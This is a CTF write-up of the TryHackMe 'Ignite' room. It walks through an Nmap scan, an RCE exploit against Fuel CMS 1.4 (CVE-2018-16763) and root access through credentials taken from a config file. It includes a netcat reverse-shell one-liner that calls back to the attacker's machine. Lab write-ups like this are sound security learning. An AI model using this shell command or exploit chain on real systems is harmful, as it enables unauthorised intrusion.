

# Ignite - Writeup

*A new start-up has a few issues with their web server.*

## Overview

This is my writeup for the Ignite CTF.  The Ignite CTF is a free room of beginner difficulty which mainly tests your methodology.  It is very heavy on information gathering, scanning, and enumeration, as well as finding exploits.  

## How to Access

I completed this CTF challenge on TryHackMe.

Link to the room:
- https://tryhackme.com/room/ignite

## Scanning and Enumeration

Firstly, I began with an Nmap scan:

```
$ sudo nmap -sC -sV -oN initial 10.10.183.1
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-04 00:39 BST
Nmap scan report for 10.10.183.1
Host is up (0.075s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.68 seconds

```

The initial scan shows that only port 80 is open and is running a web server.  Navigating to this shows a Fuel CMS page:


The website is running a Fuel CMS (Content Management System) application on version 1.4.  Scrolling down to the bottom also reveals a username and password combination:


The scan also showed that there is a `/fuel` directory.  Investigating this reveals a login form:


It also shows that `robots.txt` has a disallowed entry - this so happens to be `/fuel/`.

ExploitDB reveals that Fuel CMS v1.4 is vulnerable to remote code execution (RCE) using CVE-2018-16763 (found )

## Gaining Access

After downloading the exploit file and altering it so that it contained the target machine's IP address, I was able to gain access to the machine as the `www-data` user:


Using the following code, I was able to obtain a reverse shell using Netcat (found ):

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.150.161 4444 > /tmp/f
```



I then upgraded my terminal using Python's `pty` module:


## Finding `flag.txt`

I found the flag in the `www-data` user's home directory:


## Escalating Privileges and Finding `root.txt`

Investigating the web application's configuration, I found a `database.php` file which contained the `root` user's credentials:


I then used these credentials to escalate my privileges into the `root` user and then found the flag within the `/root` directory:


And that's it!  All done!

## Summary and Feedback

This challenge really tested my knowledge of scanning, enumeration, and finding vulnerabilities - an area which I'm desperately trying to optimise.  If you are a beginner and haven't quite got your methodology down, this machine will help you enhance it.